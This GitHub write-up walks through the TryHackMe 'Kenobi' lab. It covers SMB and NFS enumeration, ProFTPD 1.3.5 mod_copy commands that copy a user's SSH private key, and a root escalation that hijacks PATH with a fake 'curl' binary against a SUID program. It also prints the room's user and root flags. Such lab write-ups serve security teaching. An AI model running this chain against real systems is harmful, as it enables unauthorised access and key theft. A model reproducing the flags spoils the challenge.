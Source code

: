 # 🛡️ Kenobi — TryHackMe Write-Up

> Walkthrough on exploiting a Linux machine. Enumerate Samba for shares, manipulate a vulnerable version of proftpd and escalate your privileges with path variable manipulation.  
> Room: **[Kenobi](https://tryhackme.com/room/kenobi)**

<p align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/46f437a95b1de43238c290a9c416c8d4.png" alt="Kenobi banner" />
</p>

<p align="center">
  <a href="https://tryhackme.com/room/kenobi"><img src="https://img.shields.io/badge/TryHackMe-Kenobi-red?logo=tryhackme&logoColor=white" /></a>
  <img src="https://img.shields.io/badge/Difficulty-Intermediate-orange" />
  <img src="https://img.shields.io/badge/Focus-SMB%20%7C%20FTP%20%7C%20PrivEsc-blue" />
  <img src="https://img.shields.io/badge/Platform-Linux-black?logo=linux" />
</p>

---

## 📚 Table of Contents
- [About](#-about)
- [Topics Covered](#-topics-covered)
- [Appendix Archive](#-appendix-archive)
- [Deploy the Machine](#-deploy-the-machine)
- [Enumeration](#-enumeration)
- [SMB Enumeration & Exploitation](#-smb-enumeration--exploitation)
- [ProFTPD Exploit (mod_copy)](#proftpd-exploit-mod_copy)
- [Mounting NFS & Initial Access](#-mounting-nfs--initial-access)
- [Privilege Escalation (PATH manipulation)](#-privilege-escalation-path-manipulation)
- [Answers (Hidden)](#-answers-hidden)
- [Further Reading & Credits](#-further-reading--credits)

---

## 🔎 About
This write-up documents the Kenobi TryHackMe room. The goal is to enumerate network services (SMB/NFS/FTP), abuse a vulnerable ProFTPD `mod_copy` module to retrieve an SSH key, access the user account, and escalate to root via a misconfigured SUID binary that uses the PATH environment variable insecurely.

> **Use only on authorised machines and lab environments.**

---

## ✅ Topics Covered
- Network Enumeration
- SMB Enumeration
- SMB Exploitation (anonymous shares)
- ProFTPD `mod_copy` abuse (unauthenticated file copy)
- Mounting NFS exports
- Privilege Escalation via PATH manipulation and SUID binaries

---

## 🚀 Deploy the Machine
1. Connect to the TryHackMe network and deploy the Kenobi machine.  
`No answer needed`

2. Scan the machine with `nmap` to discover services (example output preserved below in CLI block).

```bash
kali@kali:~/CTFs/tryhackme/Kenobi$ sudo nmap -A -p- MACHINE_IP
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-03 19:52 CEST
Nmap scan report for MACHINE_IP
Host is up (0.030s latency).
Not shown: 65524 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         ProFTPD 1.3.5
22/tcp    open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp   open  rpcbind     2-4 (RPC #100000)
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
...
Nmap done: 1 IP address (1 host up) scanned in 60.38 seconds
```

**How many ports are open?**  
`7`

---

## 🧭 SMB Enumeration & Shares
Use `nmap`'s SMB scripts to enumerate shares:

```bash
sudo nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```

Example output (preserved from lab):

```
| smb-enum-shares:
|   account_used: guest
|   \MACHINE_IP\IPC$:
|     Type: STYPE_IPC_HIDDEN
|     Path: C:	mp
|     Anonymous access: READ/WRITE
|   \MACHINE_IP\anonymous:
|     Type: STYPE_DISKTREE
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|   \MACHINE_IP\print$:
|     Type: STYPE_DISKTREE
|     Path: C:ar\lib\samba\printers
|     Anonymous access: <none>
```

**How many shares have been found?**  
`3`

Connect with `smbclient` to the `anonymous` share and list files (CLI preserved):

```bash
smbclient //MACHINE_IP/anonymous
# then at the smb prompt:
ls
```
You should see a file named `log.txt` on the share.

You can recursively download the share with `smbget -R smb://MACHINE_IP/anonymous` and inspect files like `log.txt` to find clues (SSH key info, ProFTPD notes).

**What port is FTP running on?**  
`21`

Use `nmap` to enumerate NFS exports:

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
```

**What mount can we see?**  
`/var`

---

## ⚙️ ProFTPD — mod_copy Exploit (Initial Access)
ProFTPD 1.3.5 with `mod_copy` allows unauthenticated clients to issue `SITE CPFR` and `SITE CPTO` to copy files. We can copy `/home/kenobi/.ssh/id_rsa` to `/var/tmp/id_rsa`:

```
nc MACHINE_IP 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [MACHINE_IP]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

`No answer needed`

---

## 🗂️ Mount NFS & Retrieve SSH Key (Local Machine)
On your attacking machine, mount the NFS export and retrieve the copied SSH private key:

```bash
mkdir /mnt/kenobiNFS
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 600 id_rsa
ssh -i id_rsa kenobi@MACHINE_IP
```

Once logged in as `kenobi`, view the `user.txt`:

```
kenobi@kenobi:~$ cat user.txt
<hidden - click to reveal below>
```

---

## 🔐 Privilege Escalation — PATH Variable Manipulation
Find SUID binaries that may be dangerous:

```bash
find / -perm -u=s -type f 2>/dev/null
```

One unusual SUID binary is `/usr/bin/menu`.

Run the binary to see available options (preserve CLI output):

```bash
/usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

Because `menu` calls common utilities **without full paths**, we can inject a fake binary into our `PATH`. Example (done on the target):
```bash
cd /tmp
echo /bin/bash > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
# choose option that triggers curl (or similar) → root shell!
```

This grants a root shell due to the binary running with elevated privileges and using our `PATH` to resolve commands.

---

## 🧩 Answers (Hidden)
Click to reveal the answers and flags found during the lab.

<details>
  <summary><strong>Kenobi user.txt</strong> (click to reveal)</summary>

  ```txt
  d0b0f3f53b6caa532a83915e19224899
  ```
</details>

<details>
  <summary><strong>Kenobi root.txt</strong> (click to reveal)</summary>

  ```txt
  177b3cd8562289f37382721c28381f02
  ```
</details>

---

## 📚 Further Reading & Credits
- ProFTPD `mod_copy` exploit details and PoCs (searchsploit entries for ProFTPD 1.3.5)  
- NFS and RPC enumeration techniques  
- PATH-based privilege escalation writeups and SUID pitfalls

---

### ⚠️ Disclaimer
This write-up is for **educational purposes only**. Do not attempt these techniques on systems you do not own or have explicit permission to test.

---

### ⭐ If this helped you, consider leaving a star on the repo!

